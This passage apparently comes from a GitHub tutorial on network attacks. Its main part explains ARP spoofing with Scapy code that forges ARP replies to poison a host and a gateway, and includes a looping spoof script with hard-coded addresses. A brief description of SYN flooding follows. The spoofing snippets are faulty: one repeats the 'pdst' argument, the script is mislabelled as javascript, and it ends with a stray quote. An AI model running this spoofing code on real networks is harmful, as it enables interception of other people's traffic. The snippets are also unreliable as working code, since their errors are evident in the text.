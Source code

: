 This [video](https://www.youtube.com/watch?v=mpQZVYPuDGU&t=2s) helps explain about how a DNS server works.  

##### 3. [ARP Spoofing](https://en.wikipedia.org/wiki/ARP_spoofing) 
![ARPspoofing](ARPspoofing.jpg "ARPspoofing")
###### Host spoofing 
When a host PC1 is deceived by ARP requests, the ARP package is constructed as follows: 
```sh
>>> spoof_xiaoming = Ether(src=[Tricker MAC], dst=[PC1 MAC])/ARP(psrc=PC1 IP, pdst=Gateway IP ,hwdst=Tricker MAC, pdst=PC1 MAC, op=2) 
```
The op value is 1 or 2, representing the ARP request or response package. Here we need to forge a response package, so fill in 2. 

###### Gateway spoofing 
When the Gateway is deceived by ARP requests, the ARP package is constructed as follows:
```sh
>>> spoof_gateway = Ether(src=[Tricker MAC], dst=[Gateway MAC])/ARP(hwsrc= Tricker MAC, psrc= PC1 IP, hwdst= Gateway MAC, pdst= Gateway IP, op=2) 
```

```javascript
from scapy.all import *
AttackIP = raw_input("Please input the IP of GateWay:")
AttackIP_PC = raw_input("Please input the IP PC:")
srploop(Ether(dst = "00:0C:29:4B:B2:8C")/ARP(op = "is-at", pdst = "192.168.100.9", hwdst = "00:0C:29:4B:B2:8C", psrc = AttackIP, hwsrc = "04:54:53:05:41:44"))"
```

##### 4. [SYN Flood](https://en.wikipedia.org/wiki/SYN_flood) 
SYN Flooding is a form of DoS attack where an attack sends a succession of SYN requests to a target’s system in an attempt to consume enough server resources to make the system unresponsive to legitimate traffic.
